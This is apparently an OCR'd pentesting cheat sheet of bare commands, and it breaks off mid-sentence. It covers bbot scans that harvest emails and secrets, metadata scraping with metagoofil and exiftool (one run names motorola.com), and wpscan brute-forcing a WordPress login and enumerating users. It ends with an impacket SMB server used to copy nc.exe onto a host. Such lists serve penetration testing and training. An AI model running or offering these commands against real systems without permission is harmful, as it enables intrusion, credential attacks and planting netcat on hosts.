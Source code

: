
##  Web spider:

##  Crawl www.evilcorp.com 
##  up to a max depth of 2 
##  automatically extracting emails, secrets, etc.
bbot -t www.evilcorp.com -m httpx robots badsecrets secretsdb -c web_spider_distance=2 web_spider_depth=2


##  Everything everywhere all at once:


##  Subdomains, emails, cloud buckets
##  port scan, basic web, 
##  web screenshots, nuclei
bbot -t evilcorp.com -f subdomain-enum email-enum cloud-enum web-basic -m nmap gowitness nuclei --allow-deadly



metagoofil -d $domain -t pdf,doc,xls,ppt,odp,ods,docx,xlsx,pptx -l 20 -n 20  -o ~/Desktop/$domain/metagoofil/ -f ~/Desktop/$domain/users_temp.txt 



python metagoofil.py -d motorola.com -t doc,pdf -l 100 -n 3 -o motorolafiles
 

exiftool -r *.doc | egrep -i "Author|Creator|Email|Producer|Template" | sort -u
 

python metagoofil.py -d [domain name] -t doc,pdf -l 100 -n 3 -o motorolafiles



wpscan --username bully --url http://172.31.2.117/bull/ --wordlist words-john.txt --threads 10



wpscan --url 172.31.2.117/bull/ -r --enumerate u --enumerate p --enumerate t --enumerate tt




## SMB
impacket-smbserver share -smb2support /tmp/

copy \\192.168.1.13\share\nc.exe

## If you get an error, 
## use an account name and password:
